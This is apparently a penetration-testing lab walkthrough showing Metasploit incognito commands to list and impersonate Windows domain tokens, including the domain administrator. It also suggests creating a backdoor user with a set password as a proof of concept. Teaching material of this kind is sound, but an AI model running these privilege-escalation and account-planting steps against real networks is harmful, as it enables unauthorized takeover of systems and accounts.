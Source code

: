 ## **Dumping Tokens Using Metasploit**

First of all make sure you have a `meterpreter` shell on our target system

```powershell
meterpreter > load incognito
meterpreter > list_tokens -u
# impersonate_token domain\\user
meterpreter > impersonate_token marvel\\fcastle
```


#### **Example**


![b5tFh1b.png](https://i.imgur.com/b5tFh1b.png)
![](https://i.imgur.com/b5tFh1b.png)


#### **Revert Msfconsole Shell**

This will revert the `meterpreter` session to its original state

```powershell
meterpreter > revself
```


**Since we are able to dump user fcastle token and impersonate it, let do the same for the local admin, first of all switch user from fcastle to the local admin.**



![](https://i.imgur.com/lPsa2e1.png)

```powershell
meterpreter > list_tokens -u
# impersonate_token domain\\user
meterpreter > impersonate_token marvel\\administrator
```



#### **Example**


![](https://i.imgur.com/hc1UK5y.png)



## **Proof Of Concept**

We can add a proof of concept to our report by creating a new user, called **hawkeye** with password as **Password1@**.

